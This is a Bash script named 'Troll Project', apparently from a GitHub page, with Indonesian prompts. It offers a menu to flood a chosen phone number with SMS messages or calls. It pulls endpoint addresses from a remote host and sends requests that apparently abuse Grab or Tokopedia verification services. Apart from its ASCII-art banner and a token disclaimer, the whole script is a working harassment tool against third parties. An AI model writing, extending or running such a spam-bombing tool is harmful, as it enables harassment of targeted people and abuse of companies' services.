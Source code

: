 # troll_project
Special ku
#!/bin/bash
#///////////////////////////////////////////////////////////////////////////////
#///////////////////////////////////////////////////////////////////////////////
#////                                     ////
#////                                                                       ////
#///////////////////////////////////////////////////////////////////////////////
#///////////////////////////////////////////////////////////////////////////////
#PERINGATAN : KESALAHAN ATAU KEJAHATAN ADALAH TANGGUNG JAWAB DARI PEMAKAI
#GUNAKAN TOOLS UNTUK KEBAIKAN JANGAN DISALAH GUNAKAN :)
troll(){
    clear
    sleep 0.03
    echo "         _ "
    sleep 0.03
    echo "        /_)  _.-===-._ "
    sleep 0.03
    echo "       /  .; '_-.'- .'.     _ "
    sleep 0.03
    echo "  __ _/  /.'\ ._  '. , \   (_\ "
    sleep 0.03
    echo " /\_( \  |.'.-._'- .  '|     \ "
    sleep 0.03
    echo " |_)  /  |/'    ''--''\|     _\__ "
    sleep 0.03
    echo " \_)_|  /'  ._.   ._.  '\   / )(_\ "
    sleep 0.03
    echo " )/  (  \_      _      _/   \' (_| "
    sleep 0.03
    echo " /   /    \           /     _) (_/ "
    sleep 0.03
    echo " |   '',_ _'._'---'_.'_ _,.'    | \ "
    sleep 0.03
    echo " \    /  \ \  '''''  / / /     /   \ "
    sleep 0.03
    echo "  \_.'    \ \       / /  |   .' "
    sleep 0.03
    echo "   '--.,   \ \     / /  _;-'' "
    sleep 0.03
    echo "       '|   \ \   / /   | "
    sleep 0.03
    echo "       .;----'''''''----;. "
    sleep 0.03
    echo "      /(                 )\ "
    sleep 0.03
    echo "      \_''-------------''_/ "
    sleep 0.03
    echo "      | '';-----;-----;'' | "
    sleep 0.03
    echo "      | / : \ / : \ / : \ | "
    sleep 0.03
    echo "      |V.','.V.','.V.','.V| "
    sleep 0.03
    echo "      \'./_\.;./_\.;./_\.'/ "
    sleep 0.03
    echo "       ';..___________..;' "
    sleep 0.03
    echo " ============================="
    sleep 2
    echo " ==      Troll Project      =="
    sleep 0.7
    echo " ============================="
}
load(){
    echo -e "\n"
    bar=" >>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>> "
    barlength=${#bar}
    i=0
    while((i<100)); do
        n=$((i*barlength / 100))
        printf "\e[00;32m\r[%-${barlength}s]\e[00m" "${bar:0:n}"
        ((i += RANDOM%5+2))
        sleep 0.2
    done
}
get_sms=$(curl -s http://schatur.com.php?request=sms)
get_call=$(curl -s http://schatur.com.php?request=call)
mulai (){
    echo "Gunakan Troll Project Lagi?"
    echo "y/n?"
    echo
    read lagi
    if [ $lagi = "y" ]; then
            spam
    else
            echo "Terimakasih sudah menggunakan Troll project"
    fi
}
#spam
spam(){
    clear
    troll
    echo
    echo "[1] Spam SMS"
    echo "[2] Spam Telp"
    echo "[3] Close Troll Project"
    echo
    echo "1/2/3?"
    read pilih
    if [ $pilih = "1" ]; then
            echo "Troll Spam SMS"
            #function spam
            echo
            echo "Silahkan masukan nomor telp target"
            echo contoh 0812345678
            read target # masukin no telp
            echo
            echo "Berapa sms yang mau dikirim?"
            read paket
            echo
            echo Apakah nomor $target "dan SMS dikirim "$paket" sudah benar?"
            echo y/n?
            read confirm
            echo
            if [ $confirm = "y" ]; then
                    load
                    clear
                    echo Melakukan spam SMS ke nomor $target
                    echo
                    echo "Jangan close aplikasi sebelum spam selesai"
                    echo "========================================"
                    target_do=$get_sms'/sms.php?nomor='$target'&paket='$paket
                    CURL_RESPONSE=`curl -s -o /dev/null -w "%{http_code}" $target_do`
                    echo " Gunakan tools dengan bijak"
                    echo
                    echo " Love u always "
                    echo " -schatur"
                    echo "======================================="
            else
                    echo "Kesalahan"
            fi
        mulai
    elif [ $pilih = "2" ]; then
            echo "Troll Spam Call"
            #function spam
            echo
            echo "Silahkan masukan nomor telp target"
            echo contoh 0812345678
            read target # masukin no telp
            echo
            echo "Gunakan API Grab/Toped?"
            echo "[1] GRAB"
            echo "[2] TOPED"
            echo "1/2?"
            read api
            if [ $api = "1" ]; then
                  api_spam="grab"
            else
                  api_spam="toped"
            fi
            echo Apakah nomor $target dan spam menggunakan $api_spam "sudah benar?"
            echo y/n?
            read confirm
            echo
            if [ $confirm = "y" ]; then
                  load
                  clear
                  echo Melakukan spam call ke nomor $target
                  echo
                  echo "Jangan close aplikasi sebelum spam selesai"
                  echo "========================================"
                  cek_target=`curl -s $get_call/call.php?nomor=$target"&method="$api_spam`
                  echo -e $cek_target
                  echo " Gunakan tools dengan bijak"
                  echo
                  echo " Love u always "
                  echo " -schatur"
                  echo "========================================"
            else
                  echo Kesalahan, silahkan coba lagi
            fi
        mulai
    elif [ $pilih = "3" ]; then
        echo "Terimakasih sudah menggunakan Troll project"
        close
    else
        clear
        echo "Kesalahan"
        mulai
    fi
}
close(){
    exit
}
clear
echo "Loading.."
load
clear
troll
echo Selamat datang kak, Siapa nick kaka? #tulisan keluar
read nick #membaca yang ditulis
clear
troll
echo Selamat datang $nick ":)"
echo
echo "Mulai troll project?"
echo "y/n?"
read mulai
if [ $mulai = "y" ]; then
      spam
else
      close
fi

